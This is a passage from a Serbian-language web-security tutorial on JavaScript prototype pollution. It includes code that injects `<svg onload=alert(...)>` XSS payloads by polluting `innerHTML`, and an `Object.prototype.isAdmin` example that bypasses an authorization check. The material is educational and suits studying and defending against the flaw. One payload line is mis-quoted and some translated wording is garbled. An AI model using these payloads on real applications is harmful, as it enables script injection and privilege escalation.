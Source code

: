 ### Zagađivanje HTML elemenata

Prilikom generisanja HTML elementa putem JS-a moguće je **prepisati** atribut **`innerHTML`** kako bi se napisao **proizvoljan HTML kod.** [Ideja i primer iz ovog teksta](https://blog.huli.tw/2022/04/25/en/intigriti-0422-xss-challenge-author-writeup/).

{% code overflow="wrap" %}
```javascript
// Create element
devSettings["root"] = document.createElement('main')

// Pollute innerHTML
settings[root][innerHTML]=<"svg onload=alert(1)>"

// Pollute innerHTML of the ownerProperty to avoid overwrites of innerHTML killing the payload
settings[root][ownerDocument][body][innerHTML]="<svg onload=alert(document.domain)>"
```
{% endcode %}

## Primeri

### Osnovni primer

Do protočne zagađenja dolazi zbog greške u aplikaciji koja omogućava prepisivanje svojstava na `Object.prototype`. To znači da pošto većina objekata izvodi svoja svojstva iz `Object.prototype`

Najjednostavniji primer je dodavanje vrednosti **nedefinisanom atributu objekta** koji će biti proveren, kao što je:

```javascript
if (user.admin) {
```

Ako atribut **`admin` nije definisan**, moguće je zloupotrebiti PP i postaviti ga na True pomoću nečega poput:

```javascript
Object.prototype.isAdmin = true
let user = {}
user.isAdmin // true
```

Mehanizam iza ovoga uključuje manipulisanje svojstvima tako da ako napadač ima kontrolu nad određenim ulazima, mogu izmeniti prototip svih objekata u aplikaciji. Ova manipulacija obično uključuje postavljanje svojstva `__proto__`, koje je u JavaScript-u sinonim za direktno modifikovanje prototipa objekta.

Uslovi pod kojima se ovaj napad može uspešno izvršiti, kako je navedeno u određenoj [studiji](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript\_prototype\_pollution\_attack\_in\_NodeJS.pdf), uključuju:

* Izvođenje rekurzivnog spajanja.
* Definisanje svojstava na osnovu putanje.
* Kloniranje objekata.

### Poništavanje funkcije
